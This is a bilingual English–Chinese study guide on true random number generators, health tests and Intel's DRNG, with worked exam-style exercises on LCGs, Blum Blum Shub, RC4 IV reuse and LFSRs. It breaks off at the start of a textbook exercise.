Goal. Compare a TRNG with a PRNG, explain why raw TRNG bits are conditioned and health-tested, compute the Repetition Count Test cutoff, and describe the Intel generator.目标。比较 TRNG 与 PRNG，说明为什么对原始 TRNG 比特要做调理和健康检验，计算重复计数检验的阈值，并描述 Intel 的生成器。
Step 1: sources and comparison with PRNGs第 1 步：熵源以及与 PRNG 的比较
In words: a TRNG measures an unpredictable physical process, so it is slow, not reproducible and not periodic.用文字表述：TRNG 测量一个不可预测的物理过程，因此它很慢，不可重现，也不是周期性的。
Sources are thermal noise from a pair of inverters, ionizing radiation, leaky capacitors and, on a computer, audio input with nothing connected, disk speed fluctuations, keystroke timing and mouse movement.熵源包括一对反相器的热噪声、电离辐射、漏电电容；在计算机上，还包括未接输入的音频接口、磁盘速度波动、击键时间和鼠标移动。
| PRNG | TRNG | |
|---|---|---|
| Efficiency效率 | very efficient: many bits quickly非常高效：可快速产生大量比特 | generally inefficient通常效率低 |
| Determinism确定性 | deterministic: reproducible from the seed确定性的：可由种子重现 | nondeterministic: not reproducible非确定性的：不可重现 |
| Periodicity周期性 | periodic (period so long it is ignored)有周期（周期长到可以忽略） | aperiodic非周期的 |
Step 2: bias, entropy rate and conditioning第 2 步：偏差、熵率与调理
TRNG output may be biased（有偏）: some outcomes, for example more ones than zeros, are more probable than others. SP 800-90B defines the entropy rate as the assessed entropy per output bit, between 0 (none) and 1 (full). An unbiased stream of independent bits has rate 1.TRNG 的输出可能有偏：某些结果（例如 1 比 0 多）出现的概率更高。SP 800-90B 把熵率定义为每个输出比特的评估熵，取值在 0（无熵）到 1（满熵）之间。独立比特且无偏的流，其熵率为 1。
The recommended approach is therefore to assume that a hardware source may be biased. Their bits pass through a conditioning algorithm, a cryptographic function that scrambles the bits to remove bias and raise the entropy per bit. There are two usual choices.因此推荐的做法是假定硬件源可能有偏。它们的比特要经过调理，即一个密码学函数，用来打乱比特，消除偏差并提高每比特的熵。通常有两种选择。
- Hash function (Section 11.1). Pass blocks of input bits through an \(n\)-bit hash and use the \(n\) output bits. Linux hashes pooled mouse, keyboard, disk and interrupt bits with SHA-1.
Hash_dfof SP 800-90A hashes the input with an incrementing counter and concatenates the outputs.哈希函数（第 11.1 节）。把输入比特分块后送入一个 \(n\) 位的哈希函数，并使用其中的 \(n\) 个输出比特。Linux 用 SHA-1 对池化的鼠标、键盘、磁盘和中断比特进行哈希。SP 800-90A 中的Hash_df用递增的计数器对输入进行哈希，并把各个输出拼接起来。 - Block cipher. Encrypt blocks of TRNG output with AES under an arbitrary key. The Intel generator uses AES-CBC-MAC.分组密码。用 AES 在任意密钥下加密 TRNG 输出的分组。Intel 的生成器使用 AES-CBC-MAC。
Step 3: health tests第 3 步：健康检验
In words: a health test checks that the noise source still delivers the entropy it was assessed to have.用文字表述：健康检验检查噪声源是否仍然提供其被评估的熵。
SP 800-90B requires health tests on the digitized noise and on the conditioner output. The source is assumed to show some bias, so the SP 800-22 tests are likely to fail on it. Two continuous tests are mandatory on the noise source.SP 800-90B 要求对数字化的噪声以及调理器输出进行健康检验。噪声源被假定有一定的偏差，因此 SP 800-22 检验很可能会在它上面失败。噪声源上必须进行两项连续检验。
- Repetition Count Test: it catches a source that becomes stuck on one value. It counts identical consecutive samples, resets to 1 when the value changes, and raises an error when the count reaches the cutoff.重复计数检验：用于发现源卡在某一个值上的情况。它统计连续相同样本的个数，值一变就重新置为 1，当计数达到阈值时报错。
- Adaptive Proportion Test: it detects a large loss of entropy. It records the first sample of a window, observes the next \(N\) samples and raises an error if that value occurs at least \(C\) times.自适应比例检验：用于发现大量熵的损失。它记录一个窗口的第一个样本，然后观察接下来的 \(N\) 个样本，如果该值出现至少 \(C\) 次，就报错。
The conditioner output is tested with the SP 800-22 tests.调理器的输出用 SP 800-22 检验进行测试。
Step 4: the Intel digital random number generator第 4 步：Intel 数字随机数生成器
In words: Intel chains an entropy source, a conditioner and a DRBG on the chip.用文字表述：Intel 在芯片上把熵源、调理器和 DRBG 串联起来。


- Entropy source. Two cross-coupled inverters are forced by the clock into the same unstable state. Thermal noise then tips them at random into one of two stable states, which gives one random bit per clock. The rate is up to 4 Gbps, delivered 512 bits at a time.熵源。两个交叉耦合的反相器由时钟强制进入同一个不稳定状态。热噪声随后使它们随机地落入两个稳定状态之一，从而每个时钟产生一个随机比特。速率最高可达 4 Gbps，每次交付 512 比特。
- Conditioner (AES-CBC-MAC). It turns 512 input bits into 256 conditioned bits.调理器（AES-CBC-MAC）。它把 512 个输入比特变成 256 个经过调理的比特。
- CTR_DRBG (Section 8.3). Each 256-bit conditioned value seeds the DRBG, which outputs 128-bit numbers, up to 511 per seed.CTR_DRBG（第 8.3 节）。每个 256 位的调理值为 DRBG 提供种子，DRBG 输出 128 位数字，每个种子最多输出 511 个。
The DRBG output reaches every core through the RDRAND instruction. The conditioner output also feeds the ENRNG, whose seeds are read with RDSEED.DRBG 的输出通过 RDRAND 指令送到每个核心。调理器的输出也馈入 ENRNG，其种子通过 RDSEED 读取。
Practice练习
Q1. (Calculation) (a) A noise source has \(H=6.4\) bits of min-entropy per sample; find the Repetition Count Test cutoff for \(W=2^{-40}\). (b) A source with \(H=8\) and \(W=2^{-30}\) has cutoff 5. If it degrades to \(H=6\), roughly how many samples pass before the test raises an alarm?Q1.（计算）(a) 某噪声源每个样本具有 \(H=6.4\) 比特的最小熵；求针对 \(W=2^{-40}\) 的重复计数检验截止值。(b) 具有 \(H=8\) 与 \(W=2^{-30}\) 的信源，其截止值为 5。若它退化为 \(H=6\)，则大约有多少个样本会通过，之后检验才报警？
Answer
(a) \(C=\lceil1+40/6.4\rceil=\lceil7.25\rceil=8\). (b) For \(H=8\): \(C=\lceil1+30/8\rceil=\lceil4.75\rceil=5\), with false-positive bound \(2^{-8\cdot4}=2^{-32}\), about once per 4.3 billion samples. At \(H=6\) a run of 5 identical samples occurs with probability up to \(2^{-6\cdot4}=2^{-24}\), so the alarm comes after about \(2^{24}\approx1.7\times10^7\) samples. The test notices the degradation only slowly: it is meant for catastrophic failures.(a) \(C=\lceil1+40/6.4\rceil=\lceil7.25\rceil=8\)。(b) 对于 \(H=8\)：\(C=\lceil1+30/8\rceil=\lceil4.75\rceil=5\)，误报上界为 \(2^{-8\cdot4}=2^{-32}\)，约每 43 亿个样本一次。在 \(H=6\) 时，连续 5 个相同样本出现的概率至多为 \(2^{-6\cdot4}=2^{-24}\)，因此报警大约在 \(2^{24}\approx1.7\times10^7\) 个样本之后出现。该检验对退化的察觉很慢：它是为灾难性故障设计的。
Q2. (Explain) Why are the SP 800-22 tests unsuitable for monitoring the raw noise source, and how do the Repetition Count Test and the Adaptive Proportion Test differ?Q2.（解释）为何 SP 800-22 检验不适于监测原始噪声源？重复计数检验与自适应比例检验有何不同？
Answer
The raw source is biased by nature, so tests for an unbiased random stream would always fail; a health test must check that the source behaves as assessed (expected min-entropy per sample). The Repetition Count Test looks for \(C\) identical samples in a row and detects a catastrophic failure such as a stuck source quickly. The Adaptive Proportion Test counts how often the first value of a window of \(N\) samples reappears and detects a large but gradual loss of entropy. Both run continuously on the digitized samples (point A).原始信源本身就是有偏的，因此针对无偏随机流的检验对它总会失败；健康检测必须检查信源是否按照评估时的方式工作（即每个样本的预期最小熵）。重复计数检验寻找连续出现 \(C\) 个相同样本的情况，能够迅速发现信源卡住等灾难性故障。自适应比例检验统计长度为 \(N\) 的窗口中首个取值再次出现的次数，用于发现较大但渐进的熵损失。两种检验都在数字化后的样本（A 点）上连续运行。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Hash_DRBG, HMAC_DRBGHash_DRBG 与 HMAC_DRBG | NIST DRBGs built on a hash function or a MAC; CTR_DRBG uses a block cipher基于哈希函数或 MAC 构建的 NIST DRBG；CTR_DRBG 使用分组密码 |
| Maurer's universal testMaurer 通用检验 | An SP 800-22 test: a compressible sequence, with repeated patterns close together, is not randomSP 800-22 的一项检验：可压缩的序列（重复模式彼此靠近）不是随机的 |
| Linear complexity线性复杂度 | Length of the shortest LFSR that generates a sequence; found by the Berlekamp–Massey algorithm from \(2L\) bits能生成该序列的最短 LFSR 的长度；由 Berlekamp–Massey 算法根据 \(2L\) 个比特求得 |
| m-sequencem 序列 | Maximal-length sequence of an LFSR; period \(2^n-1\) if the characteristic polynomial is primitiveLFSR 的最大长度序列；若特征多项式为本原多项式，则周期为 \(2^n-1\) |
| ARX | Design style of ChaCha20: addition, rotation and XOR onlyChaCha20 的设计风格：只使用加法、循环移位和异或 |
| ChaCha20 with Poly1305ChaCha20 与 Poly1305 | Authenticated encryption used in TLS, IPsec and OpenSSH用于 TLS、IPsec 和 OpenSSH 的认证加密 |
| WEP attackWEP 攻击 | Exploited how per-packet RC4 keys were built from the IV, not RC4 alone利用了逐包 RC4 密钥由 IV 构造的方式，而不仅仅是 RC4 本身 |
| Hull–Dobell theoremHull–Dobell 定理 | Three conditions on \(c\), \(a\) and \(m\) for full period of an LCG with \(c\ne0\)LCG 满周期的三个条件，针对 \(c\)、\(a\)、\(m\)，参数为 \(c\ne0\) |
| Hash_df | SP 800-90A derivation function: hash with counter, concatenate and keep the leftmost bitsSP 800-90A 的派生函数：对计数器做哈希，拼接，并保留最左边的比特 |
| ENRNG, RDSEED | Intel entropy source and instruction that return seeds from the conditionerIntel 的熵源以及返回调理器种子的指令 |
| T1, T2, T3 | Three LCG criteria: full period, random appearance, efficient 32-bit implementationLCG 的三个准则：满周期、随机外观、高效的 32 位实现 |
| Entropy rate熵率 | Assessed entropy per output bit, from 0 to 1 (SP 800-90B)每个输出比特的评估熵，取值 0 到 1（SP 800-90B） |
Exam-style questions考试题型练习
Q1. (Concepts and LCG, 12 marks) (a) Define TRNG, PRNG and PRF and give one application of each. (3) (b) Define forward and backward unpredictability, and explain why the seed of a PRNG must be unpredictable. (3) (c) A system derives session keys from the LCG \(X_{n+1}=(aX_n+c)\bmod37\). An attacker observes three consecutive outputs \(2,16,26\). Recover \(a\) and \(c\) and predict the next output. (4) (d) Name one generator that resists this attack and the assumption its security rests on. (2)Q1.（概念与 LCG；12 分）(a) 定义 TRNG、PRNG 和 PRF，并各举一个应用。（3 分）(b) 定义前向与后向不可预测性，并解释为什么 PRNG 的种子必须不可预测。（3 分）(c) 某系统从 LCG \(X_{n+1}=(aX_n+c)\bmod37\) 导出会话密钥。攻击者观察到连续三个输出 \(2,16,26\)。求出 \(a\) 与 \(c\)，并预测下一个输出。（4 分）(d) 举出一种能抵御此攻击的生成器，并说明其安全性所依赖的假设。（2 分）
Answer
(a) A TRNG turns a physical entropy source into bits and is nondeterministic (generating seeds and keys). A PRNG expands a seed with a deterministic algorithm into an open-ended stream (the keystream of a stream cipher). A PRF maps a seed plus context values to a fixed-length pseudorandom string (key or nonce derivation in TLS or IPsec).(a) TRNG 将物理熵源转换为比特，且是非确定性的（用于生成种子和密钥）。PRNG 以确定性算法将种子扩展为无限长的比特流（即流密码的密钥流）。PRF 将种子与上下文值映射为定长的伪随机字符串（用于 TLS 或 IPsec 中的密钥或 nonce 派生）。
(b) Forward unpredictability: without the seed, the next bit cannot be predicted from all earlier bits. Backward unpredictability: the seed cannot be recovered from generated values. A PRNG is deterministic, so anyone who learns the seed reproduces every output; the seed must therefore be unpredictable and secret.(b) 前向不可预测性：在不知道种子的情况下，无法根据所有先前的比特预测下一比特。后向不可预测性：无法从生成的值中恢复种子。PRNG 是确定性的，因此任何获知种子的人都能重现每个输出；所以种子必须不可预测且保密。
(c) \(X_2-X_1=10\) and \(X_1-X_0=14\); \(14^{-1}\equiv8\pmod{37}\) because \(14\cdot8=112=3\cdot37+1\). So \(a\equiv10\cdot8=80\equiv6\) and \(c\equiv16-6\cdot2=4\). The next output is \(6\cdot26+4=160\equiv12\pmod{37}\), and every later output follows. The attack needs only linear algebra mod \(m\), so the generator is unsuitable for keys.(c) \(X_2-X_1=10\) 与 \(X_1-X_0=14\)；\(14^{-1}\equiv8\pmod{37}\)，因为 \(14\cdot8=112=3\cdot37+1\)。于是 \(a\equiv10\cdot8=80\equiv6\) 与 \(c\equiv16-6\cdot2=4\)。下一个输出为 \(6\cdot26+4=160\equiv12\pmod{37}\)，之后的每个输出也随之可知。该攻击只需模 \(m\) 的线性代数，因此该生成器不适用于生成密钥。
(d) Blum Blum Shub, which relies on the difficulty of factoring \(n=pq\) (next-bit test). CTR_DRBG with AES also resists it, relying on the security of AES.(d) Blum Blum Shub，其安全性依赖于分解 \(n=pq\) 的困难性（下一比特测试）。使用 AES 的 CTR_DRBG 同样能够抵御此攻击，其安全性依赖于 AES 的安全性。
思路：LCG 的线性结构让三个输出就能解出参数。
Q2. (Calculation, 12 marks) (a) Check that \(p=11\), \(q=19\) are valid Blum Blum Shub primes and give \(n\). (2) (b) For the seed \(s=4\) compute \(X_0,\dots,X_4\) and the bits \(B_1,\dots,B_4\). (4) (c) State the next-bit test and what the security of BBS rests on. (3) (d) For CTR_DRBG with AES-128 give seedlen and the maximum number of bits between two reseeds. (3)Q2.（计算；12 分）(a) 验证 \(p=11\)、\(q=19\) 是有效的 Blum Blum Shub 素数，并给出 \(n\)。（2 分）(b) 对于种子 \(s=4\)，计算 \(X_0,\dots,X_4\) 以及比特 \(B_1,\dots,B_4\)。（4 分）(c) 陈述下一比特测试，并说明 BBS 的安全性依赖于什么。（3 分）(d) 对于使用 AES-128 的 CTR_DRBG，给出 seedlen 以及两次重新播种之间能够产生的最大比特数。（3 分）
Answer
(a) \(11\bmod4=3\) and \(19\bmod4=3\), so both are \(\equiv3\pmod4\); \(n=209\) and \(\gcd(4,209)=1\).(a) \(11\bmod4=3\) 与 \(19\bmod4=3\)，因此二者均为 \(\equiv3\pmod4\)；\(n=209\) 与 \(\gcd(4,209)=1\)。
(b) \(X_0=4^2=16\), \(X_1=16^2=256\bmod209=47\), \(X_2=47^2=2209\bmod209=119\), \(X_3=119^2=14161\bmod209=158\), \(X_4=158^2=24964\bmod209=93\). The bits are the parities: \(B_1,\dots,B_4=1,1,0,1\).(b) \(X_0=4^2=16\)、\(X_1=16^2=256\bmod209=47\)、\(X_2=47^2=2209\bmod209=119\)、\(X_3=119^2=14161\bmod209=158\)、\(X_4=158^2=24964\bmod209=93\)。比特即为奇偶性：\(B_1,\dots,B_4=1,1,0,1\)。
(c) A generator passes the next-bit test if no polynomial-time algorithm that sees the first \(k\) output bits predicts bit \(k+1\) with probability significantly above \(1/2\). BBS passes it if factoring \(n\) into \(p\) and \(q\) is hard.(c) 若不存在这样的多项式时间算法：它能看到前 \(k\) 个输出比特，并以显著高于 \(1/2\) 的概率预测第 \(k+1\) 个比特，则生成器通过下一比特测试。若将 \(n\) 分解为 \(p\) 与 \(q\) 是困难的，则 BBS 通过该测试。
(d) seedlen \(=128+128=256\) bits. Maximum output \(=2^{48}\cdot128=2^{55}\) bits.(d) seedlen 为 \(=128+128=256\) 比特。最大输出为 \(=2^{48}\cdot128=2^{55}\) 比特。
Q3. (RC4 and keystream reuse, 14 marks) (a) RC4 with a 2-bit word size (\(N=4\), arithmetic mod 4) and key \(K=[2,1]\): give \(S\) after initialization and the first three keystream words. (6) (b) Alice and Bob share a 128-bit key \(k\). To send \(m\) they choose a random 64-bit \(v\) and send \((v,\;c=\text{RC4}(v\,\Vert\,k)\oplus m)\). (i) How does Bob decrypt? (ii) How can an eavesdropper tell that a keystream was reused? (iii) Roughly how many messages can be sent before a repeat is likely? (iv) What does this imply for the lifetime of \(k\)? (8)Q3.（RC4 与密钥流重用；14 分）(a) 字长为 2 比特的 RC4（\(N=4\)，运算模 4）且密钥为 \(K=[2,1]\)：给出初始化后的 \(S\) 以及前三个密钥流字。（6 分）(b) Alice 与 Bob 共享一个 128 比特密钥 \(k\)。为发送 \(m\)，他们选择一个随机的 64 比特 \(v\)，并发送 \((v,\;c=\text{RC4}(v\,\Vert\,k)\oplus m)\)。(i) Bob 如何解密？(ii) 窃听者如何判断某个密钥流被重用？(iii) 大约发送多少条消息之后，重复的可能性较大？(iv) 这对 \(k\) 的生命周期意味着什么？（8 分）
Answer
(a) \(T=[2,1,2,1]\), \(S=[0,1,2,3]\), \(j=0\). \(i=0\): \(j=2\), swap gives \([2,1,0,3]\). \(i=1\): \(j=2+1+1=4\bmod4=0\), swap gives \([1,2,0,3]\). \(i=2\): \(j=0+0+2=2\), no change. \(i=3\): \(j=2+3+1=6\bmod4=2\), swap gives \([1,2,3,0]\). Stream: \(i=1\), \(j=2\), swap gives \([1,3,2,0]\), \(t=3+2=5\bmod4=1\), \(k=S[1]=3\). \(i=2\), \(j=2+2=4\bmod4=0\), swap gives \([2,3,1,0]\), \(t=1+2=3\), \(k=S[3]=0\). \(i=3\), \(j=0+0=0\), swap gives \([0,3,1,2]\), \(t=2+0=2\), \(k=S[2]=1\). Keystream: \(3,0,1\).(a) \(T=[2,1,2,1]\)、\(S=[0,1,2,3]\)、\(j=0\)。\(i=0\)：\(j=2\)，交换后得到 \([2,1,0,3]\)。\(i=1\)：\(j=2+1+1=4\bmod4=0\)，交换后得到 \([1,2,0,3]\)。\(i=2\)：\(j=0+0+2=2\)，无变化。\(i=3\)：\(j=2+3+1=6\bmod4=2\)，交换后得到 \([1,2,3,0]\)。流生成：\(i=1\)、\(j=2\)，交换后得到 \([1,3,2,0]\)、\(t=3+2=5\bmod4=1\)、\(k=S[1]=3\)。\(i=2\)、\(j=2+2=4\bmod4=0\)，交换后得到 \([2,3,1,0]\)、\(t=1+2=3\)、\(k=S[3]=0\)。\(i=3\)、\(j=0+0=0\)，交换后得到 \([0,3,1,2]\)、\(t=2+0=2\)、\(k=S[2]=1\)。密钥流：\(3,0,1\)。
(b) (i) Bob reads \(v\), computes \(\text{RC4}(v\,\Vert\,k)\) with the shared \(k\), and XORs it with \(c\) to get \(m\). (ii) The IV \(v\) is sent in clear; two messages with the same \(v\) use the same RC4 key and hence the same keystream, so \(c_1\oplus c_2=m_1\oplus m_2\). (iii) By the birthday paradox, with \(2^{64}\) equally likely values the probability of a repeated \(v\) after \(r\) messages is about \(1-e^{-r^2/2^{65}}\): \(0.39\) at \(r=2^{32}\) and \(0.5\) at \(r\approx1.18\cdot2^{32}\approx5\times10^9\). (iv) The key must be replaced well before about \(2^{32}\) messages; for example, \(r=2^{20}\) messages per key give a repeat probability of about \(2^{-25}\approx3\times10^{-8}\).(b) (i) Bob 读取 \(v\)，用共享的 \(k\) 计算 \(\text{RC4}(v\,\Vert\,k)\)，并将其与 \(c\) 异或，得到 \(m\)。(ii) IV \(v\) 以明文形式发送；具有相同 \(v\) 的两条消息使用相同的 RC4 密钥，因而具有相同的密钥流，所以 \(c_1\oplus c_2=m_1\oplus m_2\)。(iii) 根据生日悖论，若有 \(2^{64}\) 个等可能取值，则经过 \(r\) 条消息后出现重复 \(v\) 的概率约为 \(1-e^{-r^2/2^{65}}\)：在 \(r=2^{32}\) 条消息时为 \(0.39\)，在 \(r\approx1.18\cdot2^{32}\approx5\times10^9\) 条消息时为 \(0.5\)。(iv) 密钥必须在约 \(2^{32}\) 条消息之前更换，且应远早于此；例如，每个密钥加密 \(r=2^{20}\) 条消息时，重复概率约为 \(2^{-25}\approx3\times10^{-8}\)。
易错：IV 重复是生日问题，不是要等 \(2^{64}\) 条消息。
Q4. (LFSR and Grain-128a, 12 marks) (a) The 4-bit LFSR \(B_4=B_0\oplus B_1\) starts in \(B_3B_2B_1B_0=0110\). Give the first 8 output bits and the period. (4) (b) A stream cipher uses this register as keystream generator (taps known). The attacker knows the plaintext \(1011\) and the ciphertext \(1010\) of the first four bits. Recover the initial state and the next four keystream bits. (4) (c) Why is a single LFSR insecure even though its period is long, and what if the taps are unknown? (2) (d) How does Grain-128a avoid the weakness? (2)Q4.（LFSR 与 Grain-128a；12 分）(a) 4 比特 LFSR \(B_4=B_0\oplus B_1\) 从 \(B_3B_2B_1B_0=0110\) 开始。给出前 8 个输出比特以及周期。（4 分）(b) 某流密码以该寄存器作为密钥流生成器（抽头已知）。攻击者知道前四个比特的明文 \(1011\) 与密文 \(1010\)。求出初始状态以及接下来的四个密钥流比特。（4 分）(c) 为什么即使周期很长，单个 LFSR 仍然不安全？若抽头未知，情况又如何？（2 分）(d) Grain-128a 如何避免这一弱点？（2 分）
Answer
(a) Each clock outputs \(B_0\) and inserts \(B_0\oplus B_1\): \(0110\to1011\to0101\to1010\to1101\to1110\to1111\to0111\to\cdots\) with outputs \(0,1,1,0,1,0,1,1\). The register cycles through all 15 nonzero states, so the period is \(15=2^4-1\) (\(P(X)\) is primitive).(a) 每个时钟输出 \(B_0\)，并插入 \(B_0\oplus B_1\)：\(0110\to1011\to0101\to1010\to1101\to1110\to1111\to0111\to\cdots\)，输出为 \(0,1,1,0,1,0,1,1\)。寄存器遍历全部 15 个非零状态，因此周期为 \(15=2^4-1\)（\(P(X)\) 为本原多项式）。
(b) Keystream \(=\) plaintext \(\oplus\) ciphertext \(=1011\oplus1010=0001\), i.e. \(u_0,u_1,u_2,u_3=0,0,0,1\). The first \(n\) output bits are the register contents read from \(B_0\): \(B_3B_2B_1B_0=1000\). Running the register gives \(u_4,\dots,u_7=0,0,1,1\).(b) 密钥流 \(=\)，明文 \(\oplus\)，密文 \(=1011\oplus1010=0001\)，即 \(u_0,u_1,u_2,u_3=0,0,0,1\)。前 \(n\) 个输出比特即从 \(B_0\) 读出的寄存器内容：\(B_3B_2B_1B_0=1000\)。运行该寄存器即得到 \(u_4,\dots,u_7=0,0,1,1\)。
(c) The feedback is linear, so \(n\) keystream bits fix the state and the whole stream (with known taps); with unknown taps \(2n\) bits give \(n\) linear equations for \(A_1,\dots,A_n\). Known plaintext supplies the bits. (d) It adds an NFSR whose feedback contains AND terms, and a nonlinear filter \(h\) combining both registers; the LFSR still guarantees the period and balance.(c) 反馈是线性的，因此 \(n\) 个密钥流比特即可确定状态及整个序列（抽头已知）；若抽头未知，\(2n\) 个比特给出关于 \(A_1,\dots,A_n\) 的 \(n\) 个线性方程。已知明文可提供这些比特。(d) 它增加了一个反馈包含与项的 NFSR，以及一个结合两个寄存器的非线性滤波器 \(h\)；LFSR 仍然保证周期和平衡性。
Q5. (TRNG, 12 marks) (a) Why is TRNG output conditioned, and name two conditioning methods. (3) (b) A noise source has \(H=6.4\) bits per sample; compute the Repetition Count Test cutoff for \(W=2^{-40}\). (3) (c) A raw bit has \(\Pr[1]=0.6\). Bits are independent. What is the probability that the XOR of 2 such bits is 1? Of 4 bits? Comment. (3) (d) Describe the three stages of the Intel DRNG with their block sizes. (3)Q5.（TRNG；12 分）(a) 为什么要对 TRNG 的输出进行调理？请列举两种调理方法。（3 分）(b) 某噪声源每个样本具有 \(H=6.4\) 比特；针对 \(W=2^{-40}\) 计算重复计数检验的截止值。（3 分）(c) 一个原始比特具有 \(\Pr[1]=0.6\)。各比特相互独立。两个此类比特异或结果为 1 的概率是多少？四个比特呢？请加以评注。（3 分）(d) 描述 Intel DRNG 的三个阶段及其分组大小。（3 分）
Answer
(a) Physical sources are biased (some outputs more probable) and may have an entropy rate below 1. Conditioning scrambles the bits with a cryptographic function to remove bias and raise the entropy per bit. Methods: a hash function (for example SHA-1 in Linux, or Hash_df) and a block cipher (AES, as in Intel's CBC-MAC).(a) 物理信源是有偏的（某些输出更可能出现），其熵率可能低于 1。调理用密码学函数打乱比特，以消除偏置并提高每个比特的熵。方法包括：哈希函数（例如 Linux 中的 SHA-1，或 Hash_df）以及分组密码（AES，如 Intel 的 CBC-MAC 那样）。
(b) \(C=\lceil1+40/6.4\rceil=\lceil7.25\rceil=8\).
(c) The XOR of \(n\) independent bits is 1 with probability \(\tfrac12\left(1-(1-2p)^n\right)\). For \(p=0.6\): \(n=2\) gives \(\tfrac12(1-0.04)=0.48\); \(n=4\) gives \(\tfrac12(1-0.0016)=0.4992\). The bias falls from \(0.1\) to \(0.02\) to \(0.0008\): XORing more bits drives the output towards \(1/2\), at the cost of the output rate.(c) \(n\) 个独立比特的异或结果为 1 的概率为 \(\tfrac12\left(1-(1-2p)^n\right)\)。对于 \(p=0.6\)：\(n=2\) 给出 \(\tfrac12(1-0.04)=0.48\)；\(n=4\) 给出 \(\tfrac12(1-0.0016)=0.4992\)。偏置从 \(0.1\) 降至 \(0.02\)，再降至 \(0.0008\)：异或的比特越多，输出就越趋向 \(1/2\)，代价是输出速率下降。
(d) Stage 1: two cross-coupled inverters amplify thermal noise into random bits, up to 4 Gbps, delivered 512 bits at a time. Stage 2: AES-CBC-MAC conditioner turns each 512 bits into 256 conditioned bits. Stage 3: each 256-bit value seeds CTR_DRBG, which outputs 128-bit numbers (up to 511 per seed); RDRAND returns these, and RDSEED returns seeds from the conditioner output.(d) 第一阶段：两个交叉耦合的反相器将热噪声放大为随机比特，速率最高 4 Gbps，每次交付 512 比特。第二阶段：AES-CBC-MAC 调理器将每 512 比特转换为 256 个调理后的比特。第三阶段：每个 256 比特值为 CTR_DRBG 提供种子，CTR_DRBG 输出 128 比特数（每个种子至多 511 个）；RDRAND 返回这些数，RDSEED 则从调理器输出中返回种子。
Textbook exercises课后习题
Textbook exercises with answers: 11 questions教材习题及答案，共 11 题，点击展开
E1. (Review Question 8.1, Stallings) List two criteria to validate the randomness of a sequence of numbers.E1.（复习题 8.1，Stallings）列出验证数字序列随机性的两个准则。
Answer
- Uniform distribution: the frequency of occurrence of each of the numbers (for a bit sequence: of 0 and 1) should be approximately the same, so that every value is equally likely.均匀分布：每个数出现的频率（对于比特序列，指 0 和 1 出现的频率）应大致相同，使每个值的出现概率相等。
- Independence: no subsequence of the sequence can be inferred from the others; the elements are statistically uncorrelated.独立性：序列的任何子序列都不能由其他部分推断出来；各元素在统计上不相关。
Tests exist for uniformity, but independence cannot be proved, only tested (for example with correlation and run tests): a sequence can be shown to fail but never to be certainly independent. For cryptographic use a third requirement is unpredictability: without the seed, future outputs cannot be predicted from past ones. It shows that a sequence can look uniform and still be useless for cryptography.均匀性可以检验，但独立性无法证明，只能检验（例如用相关性检验和游程检验）：一个序列可以被证明不合格，但永远不能被确定为独立。对于密码学用途，还有第三个要求，即不可预测性：在不知道种子的情况下，无法由过去的输出预测未来的输出。这说明一个序列可能看起来是均匀的，却对密码学毫无用处。
思路：均匀性和独立性；密码学还要求不可预测。
E2. (Review Question 8.2, Stallings) What is ANSI X9.17 PRNG?E2.（复习题 8.2，Stallings）什么是 ANSI X9.17 PRNG？
Answer
ANSI X9.17 is a pseudorandom number generator that uses three-key or two-key triple DES (EDE) as its core, widely used in financial applications. Let \(\mathrm{EDE}_K(\cdot)\) denote 3DES encryption with a secret key \(K\) (two 56-bit keys, 112 bits), and let \(DT_i\) be a 64-bit date/time value taken at generation \(i\). The generator keeps a secret 64-bit seed \(V_i\). Each call outputs a 64-bit pseudorandom number \(R_i\) and computes the next seed:ANSI X9.17 是一种伪随机数生成器，以三密钥或双密钥的三重 DES（EDE）为核心，广泛用于金融应用。设 \(\mathrm{EDE}_K(\cdot)\) 表示用秘密密钥 \(K\) 的 3DES 加密（两个 56 位密钥，共 112 位），并设 \(DT_i\) 为生成时取得的 64 位日期/时间值 \(i\)。生成器保存一个秘密的 64 位种子 \(V_i\)。每次调用输出一个 64 位伪随机数 \(R_i\)，并计算下一个种子：
\[R_i = \mathrm{EDE}_K\left(V_i \oplus \mathrm{EDE}_K(DT_i)\right)\]
\[V_{i+1} = \mathrm{EDE}_K\left(R_i \oplus \mathrm{EDE}_K(DT_i)\right)\]
The time value supplies a different input at each call; \(V_i\) and the key \(K\) are secret, so even if an attacker sees \(R_i\), learning \(V_{i+1}\) would require breaking 3DES. It shows how a block cipher is used as the core of a PRNG: unpredictable output depends on the secrecy of the key and the seed.时间值在每次调用时提供不同的输入。\(V_i\) 和密钥 \(K\) 都是秘密的，因此即使攻击者看到了 \(R_i\)，要得到 \(V_{i+1}\) 也需要破解 3DES。它说明分组密码如何作为 PRNG 的核心：不可预测的输出取决于密钥和种子的保密性。
思路：用 3DES 和时间戳加密、再与种子异或，输出随机数并更新种子。
E3. (Review Question 8.3, Stallings) What is the recommended key length for a stream cipher to guard against brute force attacks?E3.（复习题 8.3，Stallings）为抵御穷举攻击，流密码的推荐密钥长度是多少？
Answer
